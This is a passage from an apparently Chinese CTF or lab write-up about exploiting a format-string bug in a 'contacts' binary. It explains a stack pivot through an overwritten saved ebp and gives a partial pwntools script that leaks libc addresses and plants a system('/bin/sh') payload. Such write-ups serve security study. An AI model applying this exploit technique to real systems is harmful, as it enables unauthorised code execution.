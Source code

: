 此外，由于此时我们已经录入两个contact，故在利用程序的display功能打印数据时要考虑这个因素。

**3、利用跳板执行堆上的payload**

堆上的payload已经安排好了，但如何才能执行到呢？

[![](https://p4.ssl.qhimg.com/t010af4d616024013a1.jpg)](https://p4.ssl.qhimg.com/t010af4d616024013a1.jpg)

这里就要%$n出场了，利用它将payload地址写到栈上，从而实现堆栈互换。上图是存在格式化字符串漏洞的printf代码即将运行前的现场。其中，右下角栈视图红色框中是偏移6的位置，指向了下面紫色框，而这个紫色框是上层函数的ebp，本来指向的是再上层函数（也就是main函数）的ebp，但我们希望让其指向堆中的payload。这样，当紫色框中的地址被载入ebp时，也就是main程序返回时，就可以通过leave指令实现堆栈互换，从而执行堆中的payload了。这里有点绕，偏移6处改写的是紫色框中的地址，而这个地址真正用到时，是main函数返回时，也就是我们选择contact的功能5时。

leave指令相当于

```
mov esp,ebp
pop ebp
```

这两条指令，也就是将esp指向ebp的位置。经过调试可知，这里的leave指令是将esp指向了（ebp+4）的位置，因此在第三次创建contact记录时，我们插入如下description：

```
%(int(payload地址-4,16))x%6$n
```

其表示，将打印出来的字符数，即int(payload地址-4,16)写入偏移6指向的ebp处，即上图中的紫色框处（将原先指向上层函数的地址改成指向堆中payload地址）。这样，当我们接下来选择功能5退出contact程序时，在执行leave指令时，会实现堆栈互换，从而将esp指向了堆中的payload，结果如下图所示。当执行ret指令时，要返回的地址，也就是esp指向的地址就是我们布置的system的调用地址。

[![](https://p1.ssl.qhimg.com/t013be938bbd1b9f4cb.png)](https://p1.ssl.qhimg.com/t013be938bbd1b9f4cb.png)

具体代码如下：

```
p = process('./contacts')
print "----------1 fmtstr : leak address----------"
print p.recvuntil("&gt;&gt;&gt; ")
p.sendline("1")
print p.recvuntil("Name: ")
p.sendline("aaaaaa")
print p.recvuntil("No: ")
p.sendline("111111")
print p.recvuntil("description: ")
p.sendline("1000")
print p.readline()
p.sendline("pppp.%31$x")
print p.recvuntil("&gt;&gt;&gt; ")
p.sendline("4")
description = p.recvuntil("&gt;&gt;&gt; ").split('Description:')[1].split('Menu')[0].strip()
systemOffset   = 0x3ad00 
libcretOffset  = 0x1870e
binshOffset    = 0x15c7e8
libcretAddress = int(description.split('.')[1], 16)
binshAddress   = libcretAddress - (libcretOffset - binshOffset)
systemAddress  = libcretAddress + (systemOffset - libcretOffset)
print "----------2 fmtstr : insert payload----------"
payload = "xxxxx.%11$x" + p32(systemAddress) + "AAAA" + p32(binshAddress)
p.sendline("1")
print p.recvuntil("Name: ")
p.sendline("bbbbbb")
print p.recvuntil("No: ")
p.sendline("222222")
print p.recvuntil("description: ")
p.sendline("1000")
print p.readline()
p.sendline(payload)
print p.recvuntil("&gt;&gt;&gt; ")
p.sendline("4")
```
